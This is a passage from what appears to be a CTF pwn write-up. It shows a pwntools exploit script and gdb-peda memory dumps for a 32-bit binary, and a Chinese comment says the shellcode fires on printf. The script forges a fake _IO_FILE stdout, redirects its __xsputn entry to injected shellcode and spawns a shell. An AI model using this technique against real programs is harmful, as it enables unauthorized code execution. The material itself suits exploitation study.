 ```

'''
gdb-peda$ x /50xw 0x804a24c
0x804a24c:	0xfbad8000	0x0804a44c	0x0804a44c	0x0804a44c
0x804a25c:	0x0804a44c	0x0804a44c	0x0804a44c	0x0804a44c
0x804a26c:	0x0804a44c	0x00000000	0x00000000	0x00000000
0x804a27c:	0x00000000	0x0804a44c	0x00000001	0x00000000
0x804a28c:	0xffffffff	0x00000000	0x0804a44c	0xffffffff
0x804a29c:	0xffffffff	0x00000000	0x0804a44c	0x00000000
0x804a2ac:	0x00000000	0x00000000	0xffffffff	0x00000000
0x804a2bc:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2cc:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a2dc:	0x00000000	0x0804a34c	0x0804a44c	0x0804a44c
'''

fake_IO_stdout = fake_IO_stdout.ljust(0x100,'\x00')

payload = fake_IO_stdout + 'a'*28 + p32(0x0804A24C + 0x120) + asm(shellcraft.sh())
#change_printf(__xsputn) -->shellcode
'''
gdb-peda$ x /30xw 0x0804A34C
0x804a34c:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a35c:	0x61616161	0x61616161	0x61616161	0x0804a36c
0x804a36c:	0x2f68686a	0x68732f2f	0x6e69622f	0x0168e389
0x804a37c:	0x81010101	0x69722434	0xc9310101	0x59046a51
0x804a38c:	0x8951e101	0x6ad231e1	0x80cd580b	0x0000000a
'''

p.recvuntil('match\n')
pause()
p.sendline(payload)

p.recvuntil('?[Y/n]\n')
p.sendline('Y')

p.recvuntil('format\n')
p.sendline('a'*0x49 + p32(fake_IO_stdout_addr)) #fake stdout

p.interactive()
```

在printf的时候触发执行shellcode

